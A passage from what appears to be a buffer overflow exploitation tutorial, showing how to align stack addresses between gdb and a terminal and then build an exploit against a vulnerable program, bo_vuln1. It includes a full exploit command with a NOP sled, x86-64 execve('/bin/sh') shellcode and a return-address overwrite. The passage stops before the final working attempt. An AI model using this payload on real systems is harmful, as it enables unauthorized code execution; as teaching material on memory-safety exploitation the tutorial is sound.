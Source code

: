 gdb has 48 bytes more environment variables in memory, but note that this is not a static difference between the stack addresses in the terminal or in gdb.

> Try running `address` from a different terminal or with a different working directory to confirm that the address changes. You can use `env` to examine the environment in terminals and `show env` in gdb.

To make sure gdb and terminals have the same addresses, do the following:

1) Run gdb with an empty enviroment and unset its special environment variables:

```bash
$ env - gdb address
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Address of buffer: 0x7fffffffec30
```

2) Run programs in terminal with an empty environment, set `$PWD` and `$SHLVL` and use the full path of the program:

```
$ env - PWD=$PWD SHLVL=0 /path/to/address
Address of buffer: 0x7fffffffec30
```

Notice that the address is now the same.

Go back into gdb using the above method, and find the address of the buffer:

```bash
$ env - gdb address
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) b *cp+26
Breakpoint 1 at 0x401140: file bo_vuln1.c, line 11.
(gdb) r aaa
Breakpoint 1, 0x0000000000401140 in cp (s=0x7fffffffef9d "aaa") at bo_vuln1.c:11
...
(gdb) p $rbp-0x50
$1 = (void *) 0x7fffffffec90
```

> Since our program is compiled with debugging information (`-g`), we could get the address by using `p &input` in gdb.

Modify the exploit to jump into the NOP-sled, and run the program in the terminal:

```bash
$ env - PWD=$PWD SHLVL=0 /path/to/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x98\xec\xff\xff\xff\x7f"'`
Segmentation fault (core dumped)
```

Still no success. One final obstacle remains: our argument to the program moves to buffer address.

We know we are inputting 96 characters the program (to fill the buffer and overwrite two addresses), so our buffer address will be 96 bytes offset from our gdb result above.
